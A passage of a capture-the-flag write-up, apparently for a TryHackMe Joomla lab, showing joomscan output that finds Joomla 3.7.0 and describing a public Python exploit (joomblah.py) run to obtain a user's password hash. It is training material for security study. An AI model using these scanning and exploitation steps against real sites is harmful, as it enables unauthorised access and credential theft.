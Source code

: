 ~~~
	* It's a free and Open Source software, distributed under the GNU General Public License version 2 or later.
	* This is a simple and powerful web server application and it requires a server with PHP and either MySQL, PostgreSQL or SQL Server to run.
~~~

Running `joomscan` will reveal the full version which is 3.7.0:

~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle]
└─$ joomscan --url http://$IP:80/

    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.74.217:80/ ...



[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[REDACTED]

~~~

Joomla version: `3.7.0`


## Exploit

Now that we have the full version, we can search for an exploit. I found a python exploit [here](https://github.com/stefanlucas/Exploit-Joomla). (You can also find it in the "[files](./files/joomblah.py)" directory.) After running the exploit, we get a username (`jonah`) and his password hash.

~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ python2 joomblah.py http://$IP:80                                                                             1 ⨯
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 
~~~